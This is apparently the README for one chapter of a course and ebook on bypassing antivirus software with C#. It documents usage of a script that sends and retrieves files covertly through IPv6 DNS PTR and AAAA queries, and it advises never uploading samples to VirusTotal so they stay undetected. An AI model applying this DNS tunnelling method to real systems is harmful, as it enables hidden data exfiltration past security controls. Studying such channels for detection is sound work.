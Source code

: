 # Course : Bypassing Anti Viruses by C#.NET Programming

Part 2 (Infil/Exfiltration/Transferring Techniques by C#)  , Chapter 6 : DATA Transferring Technique by DNS Traffic (AAAA Records)

eBook : Bypassing Anti Viruses by C#.NET Programming

eBook chapter 4 , PDF Download : https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/tree/master/CH6

Related Video : 

Video 1 for chapter 6: 

Video 2 for chapter 6: https://www.youtube.com/watch?v=Ac651MbNJ_U



Warning :Don't Use "www.virustotal.com" or something like that , Never Ever ;D

Recommended:

STEP 1 : Use each AV one by one in your LAB .

STEP 2 : after "AV Signature Database Updated" your Internet Connection should be "Disconnect" .

STEP 3 : Now you can Copy and Paste your C# code to your Virtual Machine for test .

# NativePayload_IP6DNS.sh help :

Example A-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -r

Example A-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -u text.txt DNSMASQ_IPv4 [delay] (sec) [address] xxxx:xxxx

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -r

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -u text.txt 192.168.56.110 delay 0 address fe81:2222

Description: with A-Step1 you will make DNS Server , with A-Step2 you can Send text file via IPv6 PTR Queries to DNS server



Example B-Step1: (Server Side ) ./NativePayload_IP6DNS.sh -d makedns test.txt mydomain.com [address] xxxx:xxxx

Example B-Step2: (Client Side ) ./NativePayload_IP6DNS.sh -d getdata mydomain.com DNSMASQ_IPv4"

example IPv4:192.168.56.110 : ./NativePayload_IP6DNS.sh -d makedns text.txt google.com address fe80:1234

example IPv4:192.168.56.111 : ./NativePayload_IP6DNS.sh -d getdata google.com 192.168.56.110

Description: with B-Step1 you will have DNS Server , with B-Step2 you can Dump test.txt file from server via IPv6 AAAA record Query
